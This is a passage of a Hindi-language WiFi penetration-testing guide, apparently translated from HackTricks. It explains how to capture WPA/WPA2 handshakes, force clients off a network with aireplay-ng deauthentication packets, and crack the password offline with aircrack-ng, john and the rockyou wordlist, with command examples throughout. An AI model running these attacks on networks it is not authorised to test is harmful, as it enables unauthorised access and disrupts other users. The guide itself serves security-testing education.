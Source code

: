 ध्यान दें कि `hcxdumptool` **हैंडशेक भी कैप्चर करता है** (इस तरह कुछ ऐसा दिखेगा: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**)। आप `cap2hccapx` का उपयोग करके **हैंडशेक** को **hashcat**/**john** प्रारूप में **परिवर्तित** कर सकते हैं।
```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```
_मैंने देखा है कि इस टूल के साथ कुछ हैंडशेक को क्रैक नहीं किया जा सकता है, भले ही सही पासवर्ड का ज्ञात होना। मैं सिफारिश करूँगा कि यदि संभव हो तो हैंडशेक को भी पारंपरिक तरीके से कैप्चर किया जाए, या इस टूल का उपयोग करके कई हैंडशेक कैप्चर किए जाएं।_

### हैंडशेक कैप्चर

**WPA/WPA2** नेटवर्क्स को हमला करने का एक तरीका है हैंडशेक को कैप्चर करके उपयोग किए गए पासवर्ड को **ऑफ़लाइन** क्रैक करने का प्रयास करना। इसके लिए आपको **विक्टिम** नेटवर्क के **BSSID** और **चैनल** को खोजना होगा, और नेटवर्क से कनेक्टेड एक **क्लाइंट** को खोजना होगा।\
एक बार जब आपके पास यह जानकारी हो जाए, तो आपको उम्मीद है कि हैंडशेक उस चैनल में उस **BSSID** के सभी संवाद को सुनने के लिए भेजा जाएगा:
```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```
अब आपको कुछ सेकंड के लिए **ग्राहक** को **अवैध रूप से प्रमाणित** करने की आवश्यकता है ताकि यह स्वचालित रूप से एपी को पुनः प्रमाणित कर सके (कृपया डीओएस के हिस्से को पढ़ें ताकि ग्राहक को अवैध रूप से प्रमाणित करने के कई तरीके खोजें):
```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, not always work
```
_नोट करें कि जब क्लाइंट को डीऑथेंटिकेट किया जाता है, तो वह एक अलग AP से कनेक्ट करने का प्रयास कर सकता है या, अन्य मामलों में, एक अलग नेटवर्क से कनेक्ट करने का प्रयास कर सकता है।_

`airodump-ng` में हैंडशेक जानकारी दिखाई देती है तो इसका मतलब है कि हैंडशेक को कैप्चर कर लिया गया है और आप सुनना बंद कर सकते हैं:

![](<../../.gitbook/assets/image (172) (1).png>)

हैंडशेक को कैप्चर कर लेने के बाद आप `aircrack-ng` के साथ इसे **क्रैक** कर सकते हैं:
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```
### फ़ाइल में हैंडशेक की जांच करें

**aircrack**
```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```
**tshark** is a command-line tool that is part of the Wireshark network protocol analyzer. It allows you to capture and analyze network traffic in real-time. With tshark, you can capture packets from various network interfaces, apply filters to capture specific types of traffic, and save the captured data to a file for further analysis. It supports a wide range of protocols and provides detailed information about each packet, including source and destination IP addresses, port numbers, protocol types, and payload data. Tshark is a powerful tool for network troubleshooting, security analysis, and protocol development.
```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```
[**cowpatty**](https://github.com/roobixx/cowpatty)
```
cowpatty -r psk-01.cap -s "ESSID" -f -
```
_यदि यह टूल एक ESSID के अपूर्ण हैंडशेक को पूरा होने से पहले खोजता है, तो यह मान्य हैंडशेक को पहचान नहीं पाएगा।_
